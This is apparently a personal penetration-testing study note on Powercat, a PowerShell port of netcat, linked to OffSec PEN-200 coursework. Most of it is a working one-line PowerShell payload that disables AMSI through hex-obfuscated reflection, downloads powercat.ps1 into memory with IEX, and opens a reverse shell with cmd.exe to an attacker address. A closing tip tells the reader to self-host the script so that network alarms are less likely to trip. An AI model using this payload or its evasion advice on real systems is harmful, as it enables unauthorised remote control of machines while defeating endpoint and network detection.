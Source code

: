 # Using Powercat

author:: Nathan Acks  
date:: 2022-08-26

Powercat is a PowerShell-native reimplementation of netcat. Powercat can be installed on Kali Linux using `sudo apt install powercat`.

## One Line Reverse Shell

This disables AMSI, downloads Powercat into memory and invokes the module and then fires up a reverse shell.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

It’s probably advisable to use your own server to host Powercat in order to make tripping network alarms less likely.
 
## References

* [besimorhino / powercat](https://github.com/besimorhino/powercat)
* [Using PowerShell](powershell.md)
* [Using “netcat”](netcat.md)
* [2022-08-26 - OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)
